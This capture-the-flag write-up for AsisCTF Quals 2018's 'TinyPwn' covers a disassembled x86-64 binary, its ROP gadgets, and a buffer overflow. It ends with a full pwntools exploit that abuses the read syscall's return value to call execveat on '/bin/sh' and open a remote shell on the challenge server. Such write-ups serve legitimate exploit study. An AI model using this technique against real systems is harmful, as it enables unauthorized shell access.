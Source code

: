 # TinyPwn AsisCTF Quals 2018

I did this problem at school, so I didn't have ida xD. You'll have to bear with objdump.

Objdumping the binary we get:

```
TinyPwn:     file format elf64-x86-64


Disassembly of section .text:

00000000004000b0 <.text>:
  4000b0:       48 31 c0                xor    %rax,%rax
  4000b3:       48 31 db                xor    %rbx,%rbx
  4000b6:       48 31 c9                xor    %rcx,%rcx
  4000b9:       48 31 d2                xor    %rdx,%rdx
  4000bc:       48 31 ff                xor    %rdi,%rdi
  4000bf:       48 31 f6                xor    %rsi,%rsi
  4000c2:       4d 31 c0                xor    %r8,%r8
  4000c5:       4d 31 c9                xor    %r9,%r9
  4000c8:       4d 31 d2                xor    %r10,%r10
  4000cb:       4d 31 db                xor    %r11,%r11
  4000ce:       4d 31 e4                xor    %r12,%r12
  4000d1:       4d 31 ed                xor    %r13,%r13
  4000d4:       4d 31 f6                xor    %r14,%r14
  4000d7:       4d 31 ff                xor    %r15,%r15
  4000da:       48 31 ed                xor    %rbp,%rbp
  4000dd:       e8 10 00 00 00          callq  0x4000f2
  4000e2:       b8 3c 00 00 00          mov    $0x3c,%eax
  4000e7:       48 31 ff                xor    %rdi,%rdi
  4000ea:       48 31 f6                xor    %rsi,%rsi
  4000ed:       48 31 d2                xor    %rdx,%rdx
  4000f0:       0f 05                   syscall 
  4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
  4000f9:       48 89 e6                mov    %rsp,%rsi
  4000fc:       ba 48 01 00 00          mov    $0x148,%edx
  400101:       0f 05                   syscall 
  400103:       48 81 c4 28 01 00 00    add    $0x128,%rsp
  40010a:       c3                      retq
```

  It is a tiny binary indeed. It uses syscalls to read 0x148 bytes, then returns. Easy buffer overflow. We quickly find that the padding is 0x128 until the ret address. The problem is how do we get a shell?

  We can use ROPgadget to get a list of gadgets:

  ```Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x00000000004000ff : add byte ptr [rax], al ; syscall
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x00000000004000e9 : dec dword ptr [rax + 0x31] ; test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000fc : mov edx, 0x148 ; syscall
0x00000000004000fa : mov esi, esp ; mov edx, 0x148 ; syscall
0x00000000004000f9 : mov rsi, rsp ; mov edx, 0x148 ; syscall
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x00000000004000f0 : syscall
0x00000000004000ec : test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000e8 : xor edi, edi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ee : xor edx, edx ; syscall
0x00000000004000eb : xor esi, esi ; xor rdx, rdx ; syscall
0x00000000004000e7 : xor rdi, rdi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ed : xor rdx, rdx ; syscall
0x00000000004000ea : xor rsi, rsi ; xor rdx, rdx ; syscall```

We don't have much at our disposal, so my idea was syscall. Looking at the list of syscalls here: ```http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/``` we see that sys_execve is 0x3b. However, we don't have a pop rax gadget! :(

To get around this, we have to realize that the read syscall sets rax to be the length of the bytes read. However it requires 0x128 bytes to reach the ret address, and 0x128 > 0x3b. So we use stub_execveat instead, with opcode 0x142. For this syscall, rsi is the pointer to the execve file name, which is conveniently our buffer. Debugging this, we also find that we need to zero our rdx, otherwise it would crash, which we have a gadget for at 0x4000ed.

Final attack plan:
1) Make our input string start with /bin/sh\x00
2) Make our input string length 0x142
3) Zero out rdx
4) Syscall and get shell

```python
from pwn import *

r = process("./TinyPwn")
r = remote("159.65.125.233", 6009)

payload = "/bin/sh\x00" + "B"*(0x148-(8*4) - 8)
payload += p64(0x00000000004000ed)
payload += p64(0x400101)
payload += "A"*(0x142-len(payload)-1)

r.sendline(payload)
r.interactive()```
